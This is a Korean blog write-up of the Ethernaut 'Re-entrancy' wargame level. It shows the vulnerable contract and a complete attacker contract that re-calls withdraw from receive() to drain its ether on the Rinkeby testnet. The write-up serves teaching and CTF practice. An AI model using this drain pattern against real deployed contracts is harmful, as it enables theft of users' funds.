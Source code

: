```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 10) Re-entrancy (Writing)
date: '2022-01-13 16:20:00'
author: 한성원
tags: ethernaut Re-entrancy vulnerability
categories: 취약점분석
---
```



# 👋 Force
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Reentrance contract의 모든 Ether 훔쳐오기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract Reentrance {

    using SafeMath for uint256;
    mapping(address => uint) public balances;

    // _to에게 기부할 수 있는 function 
    function donate(address _to) public payable {
        // 기부 받는 사람의 balance를 msg.value만큼 늘린다.
        balances[_to] = balances[_to].add(msg.value);
    }

    // _who의 balance를 return 한다.
    function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
    }

    // 자신이 가지고 있는 balance에서 인출(withdraw)할 수 있다.
    function withdraw(uint _amount) public {
        // msg.sender의 balance가 인출하려는 액수와 같거나 큰지 체크
        if(balances[msg.sender] >= _amount) {
            // msg.sender에게 _amount의 액수만큼 Ether를 보낸다.
            (bool result,) = msg.sender.call{value:_amount}("");
            if(result) {
                _amount;
            }
            // balance에서 인출한 만 balance를 줄인다.
            balances[msg.sender] -= _amount;
        }
    }
    
    receive() external payable {}
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 Reentrance는 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 Reentrance contract에서 모든 Ether를 훔쳐오는 것이다.

위 코드는 취약점 시리즈 1에서 공부했었던 [Reentrancy Attack](https://holyhansss.github.io/vulnerability/reentrancy_attack/reentrancy_attack/)와 비슷한 코드를 가지고 있다. 

이 문제에 들어가기 전에 우리가 알아야 할 것은 함수를 실행하는 도중에 다시 함수가 불릴 수 있다는 것이다. Ethernaut에세 주는 힌트에서 알 수 있듯이 다른 contract를 통해 이를 가능케 할 수 있다.

AttackReentrance contract를 한번 보며 더 이해해보자!

우선 console 창에서 여러가지 정보를 확인해 보자
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// contract가 가지고 있는 ether의 양 확인
await getBalance(instance) 
```


```solidity
contract AttackReentrance {

    Reentrance reentrance;
    // value라는 변수를 통해 donate하는 액수와 withdraw하는 액수를 같게 만들었다.
    uint256 value;
    
    // constructor
    constructor(address payable _reentrance) public {
        // attack 할 contract 불러오기
        reentrance = Reentrance(_reentrance);
        // value를 0.001 ether로 설정: Reentrance contract의 balance가 0.001 ehter 였기 때문에 이렇게 설정했다.
        value = 0.001 ether;
    }

    // Reentrance contract의 donate 함수를 실행시키는 함수
    function attackDonate() public payable {
        // msg.value가 value 값과 같은지 확인
        require(value == msg.value);
        // Reentrance contract의 donate 함수 실행
        reentrance.donate{value: msg.value}(address(this));
    }

    // Reentrance의 withdraw 함수를 실행
    function attackWithdraw() public payable {
        // 자신에게 value 만큼 donate했기 때문에 value만큼 인출한다.
        reentrance.withdraw(value);
    }

    // receive function
    receive() external payable {
        // 돈을 인출하자마자 다시 withdraw를 call한다.
        // 실질적인 공격 코드!
        reentrance.withdraw(value);
    }
}
```
위 코드를 Remix IDE에서 위 코드를 Rinkeby Network에 배포한다. 그럼 아래와 같은 버튼들이 나올 것이다. 

![remix_attack_reentrance](remix_attack_reentrance.png)
위 버튼들 중에서 attackDonate 버튼을 눌러 donate하고 attackWithdraw를 통해 withdraw 하면 공격이 끝난다. 

이후 
```javascript
// contract가 가지고 있는 ether의 양 0이 된 것을 확인 할 수 있다.
await getBalance(instance) 

// attackContract 가 가지고 있는 ether의 양이 늘어날 것을 확인할 수 있다
await getBalance("address of attackContract")
```


이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -

## 마무리
Reentrancy attack은 굉장히 유명한 공격 중 하나이다. 내가 지금까지 다뤘던 것은 Reentrancy on a Single Function 이었다. The DAO 사태는 Cross-function Reentrancy였던만큼 Cross-function도 꼭 한번 다뤄야겠다고 느낀다. 나머지 시리즈도 화이팅!

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- Re-entrancy 취약점: https://holyhansss.github.io/vulnerability/reentrancy_attack/reentrancy_attack/

```toc

```